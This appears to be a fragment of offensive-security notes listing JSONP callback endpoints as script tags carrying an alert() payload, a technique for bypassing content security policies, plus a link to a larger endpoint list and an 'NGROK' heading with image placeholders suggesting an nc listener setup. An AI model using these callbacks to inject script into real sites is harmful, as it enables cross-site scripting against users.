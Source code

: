 <h1>JSOPN callback links</h1>

<script src="https://m.addthis.com/live/red_lojson/100eng.json?callback=alert('SELECT sleep')"></script>
<script src="https://www.youtube.com/oembed?url=fake&format=json&callback=alert('SELECT sleep')"></script>

https://github.com/zigoo0/JSONBee/blob/master/jsonp.txt : Many other endpoints

<h1>NGROK</h1>

![WSL](WSL.png)

![Listen](nc listen)

![Termux](termux)


